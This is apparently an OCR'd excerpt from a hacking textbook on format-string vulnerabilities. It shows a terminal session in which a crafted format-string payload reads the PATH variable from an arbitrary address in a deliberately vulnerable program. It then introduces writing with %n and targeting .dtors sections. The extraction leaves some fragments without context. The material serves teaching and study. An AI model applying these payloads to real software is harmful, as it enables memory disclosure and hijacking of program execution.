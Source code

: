 The %s format parameter can be used to read from arbitrary memory addresses.

reader@hacking:~/booksrc $ env | grep PATH
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
reader@hacking:~/booksrc $ ./getenvaddr PATH ./fmt_vuln
PATH will be at 0xbffffdd7
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\xd7\xfd\xff\xbf")%08x.%08x.%08x.%s
The right way to print user-controlled input:
????%08x.%08x.%08x.%s
The wrong way to print user-controlled input:
????bffff3d0.b7fe75fc.00000000./usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/
usr/games
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $

If the %s format parameter can be used to read an arbitrary memory address,
you should be able to use the same technique with %n to write to an arbitrary
memory address. Now things are getting interesting.


In binary programs compiled with the GNU C compiler, special table sections
called .dtors and .ctors are made for destructors and constructors, respectively. 

nm

080495a8 d __CTOR_END__
080495a4 d __CTOR_LIST__
080495b4 d __DTOR_END__
080495ac d __DTOR_LIST

objdump -h

 nm ./fmt_vuln | grep DTOR
08049694 d __DTOR_END__
08049690 d __DTOR_LIST__

is only four bytes this time, which means there are no addresses between them. 
